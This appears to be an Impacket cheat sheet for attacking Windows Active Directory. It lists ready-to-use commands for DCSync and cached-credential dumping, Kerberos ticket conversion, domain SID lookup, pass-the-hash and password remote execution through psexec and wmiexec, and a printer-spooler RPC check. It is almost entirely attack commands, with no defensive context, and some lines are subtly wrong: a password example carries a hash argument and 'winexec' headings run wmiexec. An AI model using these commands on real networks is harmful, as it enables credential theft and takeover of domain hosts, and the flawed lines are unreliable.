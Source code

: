 ## secretsdump.py DCSync using hash
```
impacket-secretsdump -just-dc -hashes <hashes> <domain>/'<username>'@<dc_ip>
```

## secretsdump.py DCSync using password
```
impacket-secretsdump -just-dc <hashes> <domain>/'<username>':'<password>'@<dc_ip>
```

## secretsdump.py Dump mscash - Cached Domain Credentials
```
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

## ticketConverter.py Convert kribi to ccache
```
impacket-ticketConverter <kribi> <ccache>.ccache && export KRB5CCNAME=/tmp/<ccache>.ccache
```

## lookupsid.py lookupsid Get DomainSID
```
impacket-lookupsid -domain-sids <domain>/'<username>':'<password>'@<dc_host> 0
```

## psexec.py psexec using password
```
impacket-psexec <domain>/'<username>':'<password>'@<hostname>
```

## psexec.py psexec using hash
```
impacket-psexec -hashes :<nthash> <domain>/'<username>'@<hostname>
```

## winexec.py using password
```
impacket-wmiexec <domain>/'<username>':'<password>'@<hostname>
```

## winexec.py using hash
```
impacket-wmiexec -hashes :6fe92d4fd19b4dd83f5f1be72079d7ef <domain>/'<username>'@<hostname>
```

## impacket Rpcdump check printer service
```
impacket-rpcdump <domain>/'<user>':'<password>'@<dc-ip> | grep MS-RPRN
```
